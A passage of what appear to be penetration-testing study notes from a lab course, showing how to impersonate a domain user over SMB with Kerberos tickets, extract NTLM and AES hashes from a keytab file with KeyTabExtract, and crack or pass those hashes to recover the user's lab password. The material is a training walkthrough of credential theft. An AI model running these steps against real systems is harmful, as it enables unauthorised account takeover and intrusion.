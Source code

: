 #### Connecting to SMB Share as Carlos

```shell-session
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls
```

**Note:** To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the enviroment variable `KRB5CCNAME`.

### Keytab Extract

The second method we will use to abuse Kerberos on Linux is extracting the secrets from a keytab file. 
* We were able to impersonate Carlos using the account's tickets to read a shared folder in the domain, 
	* but if we want to gain access to his account on the Linux machine, we'll need his password.

We can attempt to crack the account's password by extracting the hashes from the keytab file. 
* Let's use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract), a tool to extract valuable information from 502-type .keytab files, which may be used to authenticate Linux boxes to Kerberos. 
	* The script will extract information such as the realm, Service Principal, Encryption Type, and Hashes.

#### Extracting Keytab Hashes with KeyTabExtract

```shell-session
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```

With the NTLM hash, we can perform a Pass the Hash attack. 
	With the AES256 or AES128 hash, we can forge our tickets using Rubeus or **attempt to crack the hashes to obtain the plaintext password.

**Note:** A keytab file can contain different types of hashes and can be merged to contain multiple credentials even from different users.

The most straightforward hash to crack is the NTLM hash. We can use tools like [Hashcat](https://hashcat.net/) or [John the Ripper](https://www.openwall.com/john/) to crack it. 
* However, a quick way to decrypt passwords is with online repositories such as [https://crackstation.net/](https://crackstation.net/), which contains billions of passwords.
![[Pasted image 20240706213039.png]]

As we can see in the image, the password for the user Carlos is `Password5`. We can now log in as Carlos.

